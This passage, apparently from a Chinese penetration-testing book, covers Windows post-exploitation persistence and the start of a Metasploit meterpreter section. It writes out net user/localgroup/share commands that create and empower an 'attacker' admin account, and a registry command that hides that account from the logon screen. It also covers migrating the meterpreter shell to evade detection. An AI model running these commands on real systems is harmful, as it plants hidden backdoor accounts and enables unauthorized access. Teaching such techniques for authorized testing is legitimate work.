 以下命令具有高度侵入性，通常由系统所有者在事件响应过程中检测到。但是，攻击者经常植入它们，以使注意力远离更持久的访问机制。请参阅下表：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `net user attacker password /add` | 创建一个新的本地帐户，用户名为`attacker`，密码为`password`。 |
| `net localgroup administrators attacker /add` | 将新用户`attacker`添加到本地管理员组。在某些情况下，命令将为`net localgroup administrators /add attacker`。 |
| `net user username /active:yes /domain` | 将非活动或禁用的帐户更改为活动帐户。在小型组织中，这会引起注意。密码管理不善的大型企业可以将其 30%的密码标记为“非活动”，因此这可能是获得帐户的有效方法。 |
| `net share name$=C:\ /grant:attacker,FULL /unlimited` | 将`C:`（或另一个指定的驱动器）共享为 Windows 共享，并授予用户（攻击者）访问或修改该驱动器上所有内容的完全权限。 |

如果您创建了一个新的用户帐户，当任何人登录到系统的欢迎屏幕时都会注意到。要使帐户不可见，您需要使用以下`REG`命令从命令行修改注册表：

```
REG ADD 
  HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion
  \WinLogon\SpecialAccounts\UserList /V account_name /
  T REG_DWORD /D 0 

```

这将修改指定的注册表项以隐藏用户的帐户（`/V`。同样，基于目标操作系统的特定版本，可能会有特殊的语法要求，因此首先确定 Windows 版本，然后在受控测试环境中对其进行验证，然后再针对目标实现它。

# 使用 Metasploit 进行利用后活动

Metasploit 是利用的，用于支持利用和利用后活动。当前版本包含大约 200 个模块，可简化利用漏洞后的活动。我们将回顾一些最重要的模块。

在下面的屏幕截图中，我们成功地利用了 Windows XP 系统（一种“经典”攻击，通常用于验证`meterpreter`更复杂的方面）。第一步是立即对网络和受损系统进行侦察。

初始`meterpreter`外壳易碎，在较长时间内容易发生故障。因此，一旦系统被利用，我们将迁移 shell 并用更稳定的进程绑定它。这也使得检测利用漏洞更加困难。

在`meterpreter`提示下，输入`ps`获取正在运行的进程列表，如下图所示：
